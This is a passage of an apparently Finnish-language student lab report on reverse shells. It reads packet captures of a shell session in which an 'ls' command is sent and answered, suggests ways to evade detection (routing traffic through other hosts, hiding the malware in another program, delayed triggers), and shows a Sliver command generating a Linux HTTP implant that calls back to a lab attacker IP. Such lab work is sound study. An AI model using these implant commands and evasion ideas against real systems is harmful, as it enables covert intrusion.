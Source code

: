 Kun alku yhteys on muodostunut, voidaan huomata että hyökkäys kone `HK - 192.168.67.129` alkoi lähettämään `[PSH, ACK]` paketteja, eli dataa kohde koneelle. Tämä on kyseinen payload, mikä luo koko reverce shellin kahden koneen välille.

![alt text](assets/TT25/TT25-006/image3.png)

Seuraavassa kuvassa voidaan huomata, että `[PSH, ACK]` pyyntö hyökkäys koneelta lähettää komento pyynnön. Data kohdassa nähdään, mikä tämä komento on ollut ja se oli `ls` komento minkä mä aloitin reverce shellissä.

`Rivillä 21` voidaan huomata, että kohde kone lähetti jotakin dataa takaisin hyökkäys koneelle.

![alt text](assets/TT25/TT25-006/image4.png)

Kun tarkastellaan tätä tarkemmin, niin kohde kone lähetti vastauksen komennolle ls. Ja sieltä se palautti koko kansion sisällön, mitä me komennolla ls pyydettiin. Tässä tapauksessa kansiossa näkyi vain tämä payload tiedosto.Muita ilmiselviä huomautukisa ovat IP osoitteet. Niistä voi heti päätellä, mitä tässä tapahtuu.

Miten tätä havaitsemista voisi sitten tehdä vaikeammaksi, olisi reitittää data muiden laitteiden kautta, jotta IP osoitteet eivät olisi niin ilmiselviä. Muutenkin tämän haittaohjelman voisi piilottaa jonkun muun ohjelman sisälle, jotta kaikki verkko liikenne olisi helpompi piilottaa oikeeseen verkkoliikenteeseen. Jos payload olisi edistyneempi, niin tässä voisi käyttää ajoituksia, eli kaikki pyynnöt eivät tapahdu heti, vaan niissä on ehtoja, millon ne toteutuvat, esim. kun joku ohjelmisto tekee jotakin yms.

---

## b) Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä

Lähdin tekemään linux payloadia komennolla `generate --os linux --http 192.168.67.129:80`. Tässä `--os` tarkentaa käyttöjärjestelmän, `--http` tarkentaa osoitteen  mitä käytetään yhteyden luomisessa.

![alt text](assets/TT25/TT25-006/image5.png)
